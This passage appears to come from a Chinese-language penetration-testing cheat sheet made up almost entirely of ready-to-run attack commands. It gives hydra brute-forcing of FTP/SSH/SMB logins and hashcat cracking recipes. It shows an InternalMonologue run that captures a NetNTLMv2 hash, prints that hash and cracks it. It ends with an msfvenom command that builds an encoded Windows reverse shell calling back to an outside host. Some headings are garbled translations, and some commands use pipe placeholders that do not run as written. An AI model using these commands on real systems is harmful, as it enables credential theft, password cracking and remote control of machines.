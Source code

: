 ```text
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

#### **HashCat开裂**

```text
# 基于模式的暴力破解;
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout  

# 生成密码候选:wordlist + pattern;
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout

# 用internalMonologue生成NetNLTMv2，用hashcat破解
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
# 生成的哈希
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000

# 裂纹与hashcat
hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

#### 使用msfvenom产生有效载荷

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

#### 从Linux编译代码

```text
# Windows
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe

# Linux
gcc -m32|-m64 -o output source.c
```

#### **从Windows编译程序集**

```text
# https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D
nasm -f win64 .\hello.asm -o .\hello.obj

# http://www.godevtool.com/Golink.zip
GoLink.exe -o .\hello.exe .\hello.obj
```
